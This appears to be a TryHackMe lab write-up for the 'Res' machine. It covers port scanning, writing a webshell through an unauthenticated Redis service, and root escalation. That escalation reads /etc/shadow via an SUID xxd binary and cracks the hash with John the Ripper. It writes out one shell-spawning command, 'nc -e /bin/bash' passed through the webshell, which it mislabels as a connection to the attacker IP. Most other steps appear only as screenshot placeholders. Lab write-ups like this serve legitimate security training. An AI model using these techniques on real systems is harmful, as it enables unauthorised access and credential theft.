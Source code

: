 # Res - Tryhackme Writeup

Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

Nmap scan to find out the open ports and services

```nmap -sV  -sC -p- 10.10.131.41```

![Nmap screenshot](/images/nmap_scan)

From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.

## Vulnerability Identification

1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

![Web Application on Port 80](/images/web_application)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

![web directory enumeration screenshot](/images/dirbuster)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.

To access Redis on 10.10.131.41, I installed redis-tools on my kali machine

```sudo apt-get install redis-tools```

![redis_tools installation screenshot](/images/redis_tools)

![redis connect screenshot](/images/connect_redis)

![redis info screenshot](/images/info_redis)

Checking the webpage, I found that it works.

![Webshell execution screenshot](/images/webshell_execution)

Make a netcat connection to the attacker IP

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

![access screenshot](/images/user)

###Privilage Escalation
![suid screenshot](/images/xxd_0)
![xxd screenshot](/images/xxd)

local user password hash from /etc/shadow file
![password hash screenshot](/images/shadow)

John the ripper to crack the password
![password cracked screenshot](/images/john)

Root access
![sudo screenshot](/images/root_access)







